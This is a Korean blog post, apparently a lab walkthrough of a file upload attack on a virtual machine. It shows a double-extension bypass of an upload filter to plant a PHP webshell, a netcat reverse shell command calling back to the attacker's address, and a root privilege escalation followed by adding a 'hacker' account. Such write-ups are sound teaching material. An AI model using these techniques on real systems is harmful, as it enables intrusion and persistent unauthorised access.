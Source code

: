 ```yaml
---
title: "파일업로드 공격 실습(File Upload Attack)"
categories:
  - Web
tags:
  - Web hacking
  - File upload
  - netcat
  - webshell
comments: true
---
```


파일 업로드 공격 취약점을 이용하여 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 공격대상 서버 가상머신 환경설정
> 2. 파일 업로드 취약점 확인
> 3. Webshell 업로드 및 실행
> 4. nc 를 이용한 reverse connection
> 5. exploit code 재컴파일, 실행을 통한 권한상승


# 1. 공격대상 서버 가상머신 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/1.jpg"></p></center>

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1


# 2. 파일 업로드 취약점 확인

파일 업로드 공격은 다음의 3가지를 충족해야 한다.
- 공격자가 원하는 파일이 업로드 가능해야 한다.(확장자 우회 등을 통해)
- 업로드된 파일의 경로(서버 내 경로)를 알아야 한다.
- 업로드된 파일의 실행권한

> 2.1. 공격대상 웹 게시판에 sher.jpg 파일 업로드

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.1.png"></p></center>

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.1.2.png"></p></center>

> 2.2. [이미지 우클릭]-[이미지 주소 복사] 를 통해 업로드된 파일의 경로를 파악한다.

파일 업로드 경로 : http://10.10.10.10/wizboard/table/root/board04/updir/sher.jpg

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.2.png"></p></center>


# 3. Webshell 업로드 및 실행

> 3.1. shell.php 업로드를 하면 다음과 같이 블랙리스트 기반 파일 확장자 필터링이 있는 것을 알 수 있다.


<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.1.png"></p></center>


> 3.2. shell.php.kr 로 파일명을 변경한 후 업로드 재시도(파일 필터링 우회기법) : 성공

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.2.png"></p></center>

> 3.3. Webshell 실행

`2.2. 파일 업로드 경로` 에서 알아낸 파일 업로드 경로를 참고하여 다음의 url 을 통해 webshell 을 실행시킨다.

http://10.10.10.10/wizboard/table/root/board04/updir/shell.php.kr

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.3.png"></p></center>

> 3.4. 계정 확인 (명령어 : id)

**nobody 계정은 가장 권한이 낮은 계정 중 하나로, apache web server process를 구동시키기 위한 계정이다.**

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.4.png"></p></center>

> 3.5. test 파일 생성 후 확인(명령어 : touch test, ls -al)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.5.png"></p></center>

> 3.6. test 파일 권한 확인(명령어 : stat test)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.6.png"></p></center>

> 3.7. exploit 코드 업로드 후, 실행을 통한 권한상승 시도

3.7.1. 게시판을 통한 exp1.c 업로드

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.1.png"></p></center>

3.7.2. 컴파일 : gcc -o exp exp1.c

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.2.png"></p></center>

3.7.3. 실행 : ./exp

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.3.png"></p></center>

3.7.4. 권한 상승 실패로 여전히 nobody 계정이다.

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.4.png"></p></center>


<div class="notice">
※ Expolit code 를 실행하였음에도, 권한상승에 실패한 이유?<br>
<br>
웹쉘이란?  사실은 쉘이 아니다. 리눅스 쉘에 명령어를 전달하고 출력결과를 전달해주는 것으로 리눅스에서 쉘은 /bin/bash, /bin/sh 등이다. 실제 shell 을 통해 exploit 코드를 실행하여야 한다.
</div>


# 4. nc 를 이용한 reverse connection

> 4.1. 공격 대상 PC 에서 nc 프로그램을 연결대기 상태로 만든다.

cmd 창을 2개 생성 후 다음과 같이 명령어를 입력한다.<br>
- `cmd_1` : nc -l -p 31337<br>
31337 포트를 이용한 프로그램 실행 중 상태 (31337 포트는 임의로 선택한 것이다.)<br>
- `cmd_2` : netstat -an<br>
31337 포트가 리스팅 상태인지(프로그램이 제대로 실행되었는지) 확인

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/4.1.jpg"></p></center>

> 4.2. 웹쉘을 통해 서버 -> 공격대상 PC 연결시킨다.

- `웹쉘` : nc -e /bin/sh 10.10.10.1 31337<br>
(이때, 10.10.10.1 은 공격자의 IP 주소이다.)
- `cmd_1` : id (연결확인)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/4.2.png"></p></center>

# 5. exploit code 재컴파일, 실행을 통한 권한상승

> 5.1. 이전에 컴파일 된, exp 를 삭제하고, nc(/bin/sh) 를 통해 exploit 코드를 재컴파일 후 실행시킨다.

<div class="notice">
※ root 권한의 계정으로 컴파일 된 실행파일을 만들기 위함
</div>

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/5.1.jpg"></p></center>

> 5.2. hacker 계정 추가

useradd hacker<br>
passwd hacker<br>
cat /etc/passwd (hacker 계정 추가 확인)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/5.2.png"></p></center>

<br>

{% if page.comments %}

<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://https-c0msherl0ck-github-io.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
                            
{% endif %}
